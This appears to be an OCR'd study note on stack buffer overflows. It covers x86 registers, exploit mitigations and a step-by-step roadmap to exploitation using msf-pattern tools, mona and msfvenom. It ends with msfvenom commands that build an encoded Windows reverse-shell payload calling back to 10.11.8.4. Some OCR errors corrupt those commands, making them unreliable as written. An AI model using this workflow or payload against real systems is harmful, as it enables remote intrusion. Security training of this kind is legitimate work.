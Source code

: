 ## Buffer Overflow 

* Each function has an associated stack frame allocated at run time.

* Stack grows from high to low memory address.

* Heap grows from low to high memory address.

* Most of the computers use little endian format(\x04\x03\x02\x01) to write words(16 bits) on stack.

* Buffer allocated on stack is filled from low to high memory address which makes it possible to overwrite ebp,eip and other registers if buffer length is not handled properly.

* Register length

```
EAX	- Extended Accumulator	- 32 bits
AX	- Accumulator			- 16 bits
AL 	- Accumulator low		- 8 bits
```

* General Purpose Registers

```
EAX (accumulator): Arithmetical and logical instructions
EBX (base): Base pointer for memory addresses
ECX (counter): Loop, shift, and rotation counter
EDX (data): I/O port addressing, multiplication, and division
ESI (source index): Pointer addressing source in string copy operations
EDI (destination index): Pointer addressing destination in string copy operations
```

* Other Important Registers

```
ESP- The Stack Pointer (top of stack)
EBP - The Base Pointer (bottom of stack)
EIP- The Instruction Pointer
```

## Buffer overflow Protections in place


* __Data Execution Prevention__ - DEP forces certain structures, including the stack, to be marked as non-executable. This prevents shellcode written on stack to execute.

* __Address Space Layout Randomization__ - ASLR randomizes the base addresses of loaded applications and DLLs every time the operating
system is booted. This makes it difficult to code return address during exploitation if the application is compiled with ASLR.

* __Control Flow Guard__(windows) - CFG, Microsoft's implementation of control-flow integrity, performs validation of indirect code branching, preventing overwrites of function pointers.

* __Stack canaries__(linux) - Stack Canaries are a secret value placed on the stack which changes every time the program is started. Prior to a function return, the stack canary is checked and if it appears to be modified, the program exits immeadiately. 


## Roadmap to exploitation (stack based only)

* Try to crash the program with incrementing buffer length.

* Overwrite the EIP register.

* Identify the offset

```
msf-pattern_create -l 888
msf-pattern_offset -l 888 -q <EIP-hex-value>
```

* Locate Space for Shellcode

	a. If shellcode cannot be written on stack, try to find other places or references where user inputs are stored

	b. If their is little space left on stack, try to write first stage payload(eg. jmp esi) which redirects the execution to second stage shellcode.


* Check for Bad Characters - send all characters from \x00 to \xff as buffer value to see which characters are not allowed.

* Make sure return address used in exploit do not contain bad character.

* Do not hard code return address. Try to find an instruction in static library which serves the purpose. Eg- jmp esp (If shellcode is pointed by esp)

* To identify suitable return address for exploit, see all libraries with ASLR protection disabled and address range containing no bad characters. `!mona modules`

* use msf-nasm_shell to get hex value of required instruction and use plugins like mona script to find occurences of required instruction in the static library.

```
!mona find -s "\xff\xe4" -m "libspp.dll"
```

* Generate shellcode with metasploit

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.8.4 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x88\x8a\x0d\x2S\x26\x2b\x3d"

// For multi-threaded applications, it is better to exit thread instead of process to avoid crash

msfvenom -p windows/ shett_reverse_tcp LHOST=10.11.8.4 LPORT=443 EXITFUNC=
thread -f c -e x86/shikata_ga_nai -b "\x88\x8a\x8d\x25\x26\x2b\x3d"
```

